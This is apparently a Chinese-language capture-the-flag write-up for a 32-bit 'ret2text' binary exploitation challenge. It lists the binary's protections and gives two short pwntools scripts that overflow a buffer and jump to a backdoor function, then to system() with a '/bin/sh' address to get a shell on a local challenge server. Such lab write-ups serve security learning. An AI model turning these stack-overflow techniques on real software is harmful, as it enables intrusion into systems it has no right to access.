 ```yaml
---
title: ret2text 32
date: 2023/9/23 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了32位~~

## 解题思路

观察vuln函数里面输入一个数，并其后从输入中获取对应字节数 ~~%d个？随便打~~  
观察.text段，存在`b4ckdoor`函数，但是执行echo hi？？

显然，在第一步的exp中，只是跳转到该函数是没用的  
~~进一步探索，发现程序中system读取ebx寄存器中的内容  
而程序中存在`pop ebx; ret;`和`/bin/sh`~~  
先后压栈`system()`和`/bin/sh`即可  
再次发起exp

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x0804928c)) # Addr of ba4kdoor
sh.interactive()
```

成功打印出`hi!`！但是没有flag

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x080492a9) + p32(0x0804c02c)) # Addr of system & /bin/sh
sh.interactive()
```

> 做到这里的时候是0:09，网站打不开了，不会还有宵禁吧？明日再战
>
> 后记：真的有宵禁，12点后对外网关闭

再次运行，`cat flag`，得到flag

Done.
